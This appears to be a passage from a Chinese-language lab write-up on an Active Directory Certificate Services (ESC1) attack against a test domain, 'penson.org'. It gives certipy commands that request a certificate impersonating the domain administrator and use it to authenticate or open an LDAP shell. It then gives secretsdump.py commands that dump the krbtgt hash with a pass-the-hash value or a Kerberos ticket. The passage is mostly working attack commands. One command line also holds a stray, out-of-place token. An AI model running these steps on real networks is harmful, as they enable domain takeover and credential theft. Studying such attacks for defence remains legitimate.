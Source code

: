 [![](assets/1708508972-f4e96579c8393510ff57d08b95c41e17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165523-c8b5b7fa-cfcd-1.png)

请求域管证书  
target 为 ADCS 证书服务器的 ip，template，ca 要和上面的对的上

```bash
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template PensonESC1 -upn administrator@penson.org
```

[![](assets/1708508972-2e7747e341548672af08a19f78bf8e81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165537-d0cbe086-cfcd-1.png)

拿 TGT

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.21 -scheme ldap  //ldap

certipy auth -pfx administrator.pfx -dc-ip 192.168.142.21 -ldap-shell  //ldaps


导出 hash
方式一：
secretsdump.py penson.org/administrator@192.168.142.20 -just-dc-user PENSON/krbtgt -hashes aad3b435b51404eeaad3b435b51404ee:e1342d6f7b624f52d60008e44be76aa4
方式二：
export KRB5CCNAME=administrator.ccache
python3 secretsdump.py -k -no-pass AD.penson.org -just-dc-user krbtgt -target 192.168.142.20 -debug
```